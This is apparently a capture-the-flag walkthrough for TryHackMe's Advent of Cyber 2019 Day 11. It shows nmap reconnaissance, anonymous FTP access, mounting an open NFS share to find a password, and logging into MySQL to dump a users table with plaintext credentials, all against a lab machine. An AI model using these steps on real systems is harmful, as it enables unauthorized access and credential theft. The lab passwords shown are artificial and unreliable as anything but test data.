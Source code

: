 # Advent of Cyber  [2019] - Day 11
> 4lch3my | June 14, 2023
-------------------
#### Elf Applications
#### [Room Link](https://tryhackme.com/room/25daysofchristmas)

##### Deploy the machine and connect to our network
  Deploy the machine with the Start Machine button, also either deploy your Attack Box OR Connect to OpenVPN and deploy your personal KALI machine. <br>

  To start, I use [nmap] for scanning the machine, which is default option on the personal Kali install I have. We start with a basic command
  ` nmap -sC -sV -A -v MACHINE_IP `
  The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -v outputs in verbose mode, so we can follow along with the commands and enumeration.
  In our NMAP results we get:
```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-13 01:23 BST
Nmap scan report for ip-10-10-35-99.eu-west-1.compute.internal (10.10.35.99)
Host is up (0.00038s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to MACHINE_IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 14:6f:fc:4d:82:43:eb:e9:6e:f3:0e:01:38:f0:cb:23 (RSA)
|   256 83:33:03:d0:b4:1d:cb:8e:59:6f:13:14:c5:a2:75:b3 (ECDSA)
|_  256 ec:b1:63:c0:6d:98:fd:be:76:31:cd:b9:78:35:2a:bf (EdDSA)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      20048/tcp  mountd
|   100005  1,2,3      20048/udp  mountd
|   100021  1,3,4      33686/udp  nlockmgr
|   100021  1,3,4      39359/tcp  nlockmgr
|   100024  1          43852/udp  status
|   100024  1          50703/tcp  status
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
3306/tcp open  mysql   MySQL 5.7.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.28
|   Thread ID: 15
|   Capabilities flags: 65535
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, InteractiveClient, SupportsLoadDataLocal, SupportsTransactions, Support41Auth, FoundRows, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, IgnoreSigpipes, SupportsCompression, Speaks41ProtocolOld, LongPassword, ODBCClient, LongColumnFlag, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x7F|;amt\x1DA?vPb)yY\x186\x18zH
|_  Auth Plugin Name: 79
MAC Address: 02:90:84:59:C5:9B (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=6/13%OT=21%CT=1%CU=39228%PV=Y%DS=1%DC=D%G=Y%M=029084%T
OS:M=6487B726%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=108%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M23
OS:01ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)
OS:WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=FF%W=
OS:6903%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N
OS:)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=FF%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7
OS:(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=FF%IPL=164%UN=
OS:0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD=S)

Network Distance: 1 hop
Service Info: OS: Unix

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-MACHINE_IP.eu-west-1.compute.internal (10.10.35.99)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.07 seconds
```

Wow. We have a bunch of services running on this machine. Let's look at the one by one.

##### FTP

As we can see in our nmap scan, we have the `ftp-anon` enabled on this machines, what refers to  "log-in" with no known password. 

```
ftp-anon: Anonymous FTP login allowed (FTP code 230)
```
Let's try to login to the FTP server.
When prompted, we can leave the password field blank and hit [ENTER]. 

```
root@ip-10-10-148-9:~# ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.2)
Name (MACHINE_IP:root): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Time to list all the files with the `ls` command:

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
```

After looking at the folders, there is nothing of interest for us, so let's grab `file.txt` & `welcome.msg` with the `get` command to move them to our personal machine:

```
ftp> get file.txt
local: file.txt remote: file.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for file.txt (39 bytes).
226 Transfer complete.
39 bytes received in 0.00 secs (82.0818 kB/s)
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for welcome.msg (224 bytes).
226 Transfer complete.
224 bytes received in 0.00 secs (150.1373 kB/s)
``` 

Looking at the `welcome.msg` file, we see nothing of interest, it is simply a file to show us some default data about the ftp page where we logged into.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_welcome.PNG?raw=true)


But, if we look at the `file.txt` file, we have some usefull information for further enumeration on this machine.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_file.PNG?raw=true)


##### NFS

Moving on to `port 2049`: `NFS`. [NFS](https://en.wikipedia.org/wiki/Network_File_System) 
stands for `Network File System` what gives us an idea on what this application might be used for. Let's see what data we can grab from here.
To start we can list all the folders (mount points) on this `NFS` instance:

```
root@ip-10-10-240-134:~# showmount -e MACHINE_IP
Export list for MACHINE_IP:
/opt/files *
```
There seems to be only one folder/file listed: `/opt/files`. Time to mount it to our machine:

```
root@ip-10-10-240-134:~# mount MACHINE_IP:/opt/files /root/Desktop/
```

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_creds.PNG?raw=true)

And taking a look at the file, we see a password. Yay!

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/Advent%20of%20Cyber%201%20%5B2019%5D/images/Day_11_creds_data.PNG?raw=true)




sql

if no sql reader, install: mysql-client-core-5.7

mysql -u root -pff912ABD* -h MACHINE_IP

(-pPassword, yes! -p is WITH password!, all one word)

mysql> SELECT VERSION(), CURRENT_DATE;
+-----------+--------------+
| VERSION() | CURRENT_DATE |
+-----------+--------------+
| 5.7.28    | 2023-06-14   |
+-----------+--------------+
1 row in set (0.00 sec)

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use data;
Reading table information for completion of table and column names


mysql> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.00 sec)



mysql> SELECT * FROM USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.00 sec)

mysql> 


https://dev.mysql.com/doc/refman/8.0/en/getting-information.html